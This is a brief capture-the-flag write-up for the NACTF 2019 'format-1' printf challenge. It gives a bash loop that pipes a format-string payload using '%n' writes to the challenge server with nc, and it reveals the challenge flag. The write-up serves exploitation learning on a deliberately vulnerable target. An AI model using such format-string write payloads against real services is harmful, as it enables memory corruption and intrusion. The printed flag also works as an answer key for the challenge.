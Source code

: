 #### Challenge:

printf can do more than just read memory... can you change the variable? `nc shell.2019.nactf.com 31560` [format-1.c](./format-1.c ":ignore") [format-1](./format-1 ":ignore")

---

#### Solution:

```bash
for i in `seq 10 25`; do
    python -c  "print \"A\" * 42 + \"%$i\$n\" " | nc shell.2019.nactf.com 31560;
done
```

---

<details><summary>FLAG:</summary>

```
nactf{Pr1ntF_wr1t3s_t0o_rZFCUmba}
```

</details>
